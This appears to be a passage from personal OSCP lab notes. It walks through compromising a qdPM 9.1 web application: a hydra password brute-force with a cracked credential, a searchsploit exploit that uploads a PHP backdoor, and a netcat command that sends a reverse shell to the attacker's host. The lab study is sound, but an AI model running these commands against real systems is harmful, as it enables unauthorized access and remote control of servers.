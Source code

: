 ###### 12.3.3. Nmap NSE Scripts

1. Listing NSE scripts containing the word "Exploits"
```
grep Exploits /usr/share/nmap/scripts/*.nse
```

2. Using Nmap NSE to obtain information on a script
```
nmap --script-help=clamav-exec.nse
```

#### 12.4. Exploiting a Target
###### 12.4.1. Putting It Together
1. Figured out the login page after doing nmap and gobuster. 
2. Then, found out the exploit using the login page verson which was 'qdPM 9.1'. 
3. Cracked login details using 4 emails in about page with rockyou.txt. george@AIDevCorp.org:AIDevCorp 
```
hydra [TARGETIP] http-form-post "/TARGETPATH/TARGETPAGE.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt

 hydra 192.168.233.11 -L email -P /usr/share/wordlists/rockyou.txt http-post-form "/project/index.php/login:login%5B_csrf_token%5D=a570ddd1520e356bc2e2539a7c688c37&login%5Bemail%5D=^USER^&login%5Bpassword%5D=^PASS^&remember_me=1&http_referer=http%3A%2F%2F192.168.233.11%2Fproject%2F:No match for Email and/or Password"  
```
4. The exploit is copied into our current working directory
```
searchsploit -m 50944
```
5. The exploit completed successfully with an uploaded file
```
┌──(kali㉿kali)-[~/OSCP/12]
└─$ python3 50944.py -url http://192.168.233.11/project/ -u george@AIDevCorp.org -p AIDevCorp
You are not able to use the designated admin account because they do not have a myAccount page.

The DateStamp is 2024-01-29 08:26 
Backdoor uploaded at - > http://192.168.233.11/project/uploads/users/764138-backdoor.php?cmd=whoami
```
6. nc is installed on the target
```
┌──(kali㉿kali)-[~/OSCP/12]
└─$ curl http://192.168.233.11/project/uploads/users/764138-backdoor.php --data-urlencode "cmd=which nc"
<pre>/usr/bin/nc
</pre>                                                                             
```
7. Get revere shell. 
```
┌──(kali㉿kali)-[~/OSCP/12]
└─$ curl http://192.168.233.11/project/uploads/users/764138-backdoor.php --data-urlencode "cmd=nc -nv 192.168.45.195 6666 -e /bin/bash"

┌──(kali㉿kali)-[~/OSCP/12]
└─$ sudo nc -nvlp 6666
listening on [any] 6666 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.233.11] 45348
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
